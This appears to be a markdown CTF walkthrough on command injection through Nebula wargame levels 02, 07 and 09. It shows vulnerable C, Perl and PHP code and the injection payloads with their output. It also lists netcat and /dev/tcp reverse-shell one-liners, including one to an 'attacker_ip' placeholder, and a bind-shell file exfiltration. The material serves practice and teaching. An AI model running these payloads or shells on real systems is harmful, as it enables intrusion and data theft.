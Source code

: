 ## Classic Command Injection

**Command Execute Functions in C**
```
system()
execl()
execlp()
execv()
execvp()
execle()
execve()
popen()
etc...
```
**Nebula Level02** [ [Description](https://exploit-exercises.lains.space/nebula/level02/) ]

Vulnerble Code
```
char *buffer;
buffer = NULL;
asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
printf("about to call system(\"%s\")\n", buffer); 
system(buffer);
```
Getting environment variable "USER" and about to execute this string

Export USER with random value and Running Program
```
level02@nebula:~$ export USER=aaaa
level02@nebula:~$ /home/flag02/flag02
about to call system("/bin/echo aaaa is cool")
aaaa is cool
```
Running two Command in Linux ( Many ways )
```
level02@nebula:~$ id;whoami
uid=1003(level02) gid=1003(level02) groups=1003(level02)
level02
```
Command Injection and Solving Level02
```
/bin/echo [INPUT] is cool
/bin/echo Break;getflag;echo is cool 
level02@nebula:~$ unset USER
level02@nebula:~$ export USER="Break;getflag;echo"
level02@nebula:~$ /home/flag02/flag02
about to call system("/bin/echo Break;getflag;echo is cool")
Break
You have successfully executed getflag on a target account
is cool
```
**Nebula Level07** [ [Description](https://exploit-exercises.lains.space/nebula/level07/) ]

Vulnerable Code
```
#!/usr/bin/perl 
use CGI qw{param}; 
print "Content-type: text/html\n\n"; 
sub ping { 
	$host = $_[0]; print("<html><head><title>Ping results</title></head><body><pre>"); 
	@output = `ping -c 3 $host 2>&1`; foreach $line (@output) {
		print "$line"; } 
	print("</pre></body></html>"); 
		} 
		# check if Host set. if not, display normal page, etc 
ping(param("Host"));
```
Backticks is alternative way to execute command in PERL [ [Ref](https://www.perlmonks.org/?node_id=380670) ]
Running Port
```
tcp6       0      0 :::7007                 :::*                    LISTEN
```
HTTP Requests from My Windows Host
```
$ curl http://192.168.43.229:7007/index.cgi?Host=192.168.43.234
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    57    0    57    0     0      9      0 --:--:--  0:00:06 --:--:--     0

```
Command Injection
```
ping -c 3 $host 2>&1
ping -c 3 [ INPUT ] 2>&1
ping -c 3 ; getflag 2>&1  #No Result

#Final Payload
127.0.0.1%3bgetflag
```
Result
```
thinb@DESKTOP-U4MGHBB ~
$ curl http://192.168.43.229:7007/index.cgi?Host=127.0.0.1%3Bgetflag
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   504    0   504    0     0    252      0 --:--:--  0:00:02 --:--:--   246
<html><head><title>Ping results</title></head><body><pre>PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_req=1 ttl=64 time=0.023 ms
64 bytes from 127.0.0.1: icmp_req=2 ttl=64 time=0.021 ms
64 bytes from 127.0.0.1: icmp_req=3 ttl=64 time=0.030 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 1998ms
rtt min/avg/max/mdev = 0.021/0.024/0.030/0.006 ms
You have successfully executed getflag on a target account
</pre></body></html>

```
**Netcat TCP Reverse Shell** ( Blind Command Injection )
Listenting on My Computer
```
nc -lvp1234
```
Giving a Shell with e
```
nc -e /bin/bash 192.168.43.234 1234
```
Without e
```
mknod /tmp/backpipe p/bin/sh 0</tmp/backpipe | nc **attacker_ip** 4444 1>/tmp/backpipe
```
Using Dev
```
127.0.0.1; bash -i >& /dev/tcp/192.168.43.234/1234 0>&1;
```
Don't need for Nebula 007

**Data Exfiltration with Bind Shell** ( if we need to read flag )
```
nc –l –p {port}  <  {file/to/extract}
127.0.0.1; nc.traditional -l -p 1234 < thttpd.conf
```
Payload
```
curl http://192.168.43.229:7007/index.cgi?Host=127.0.0.1%3B%20nc.traditional%20-l%20-p%201234%20%3C%20thttpd.conf
```
Connect
```
C:\Users\thinb>nc 192.168.43.229 1234
# /etc/thttpd/thttpd.conf: thttpd configuration file

# This file is for thttpd processes created by /etc/init.d/thttpd.
# Commentary is based closely on the thttpd(8) 2.25b manpage, by Jef Poskanzer.

# Specifies an alternate port number to listen on.
port=7007

# Specifies a directory to chdir() to at startup. This is merely a convenience -
# you could just as easily do a cd in the shell script that invokes the program.
dir=/home/flag07
```
**Nebula Level09** [ [Description](https://exploit-exercises.lains.space/nebula/level09/) ]  

Vulnerable Code PHP
```
$contents  =  preg_replace("/(\[email (.*)\])/e",  "spam(\"\\2\")",  $contents);
```
I already explained in LOL Free Web Security Class. [ [Watch Here](https://www.youtube.com/watch?v=2hphqcUpfcE) ]

**Other Command Injection**
Python Sandbox Escape ( [Read More](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/sandbox/python-sandbox-escape/) )
```
os.system () 
os.popen () 
ommands.getstatusoutput() 
commands.getoutput() 
commands.getstatus() 
subprocess.call(command, shell=True) 
subprocess.Popen(command, shell=True) 
pty.spawn()
```
**Python Pickle Command Injection** ( DIY )  
Level 17 in Nebula -> Do it yourself


**References**  
[https://blog.securityinnovation.com/blog/2011/06/how-to-test-for-command-injection.html](https://blog.securityinnovation.com/blog/2011/06/how-to-test-for-command-injection.html)
[http://man7.org/linux/man-pages/man3/asprintf.3.html](http://man7.org/linux/man-pages/man3/asprintf.3.html)
[https://www.perlmonks.org/?node_id=380670](https://www.perlmonks.org/?node_id=380670)
[https://medium.com/@shadowslayerqwerty/creating-a-netcat-reverse-shell-without-e-89b45134de99](https://medium.com/@shadowslayerqwerty/creating-a-netcat-reverse-shell-without-e-89b45134de99)
[https://www.contextis.com/us/blog/data-exfiltration-via-blind-os-command-injection](https://www.contextis.com/us/blog/data-exfiltration-via-blind-os-command-injection)
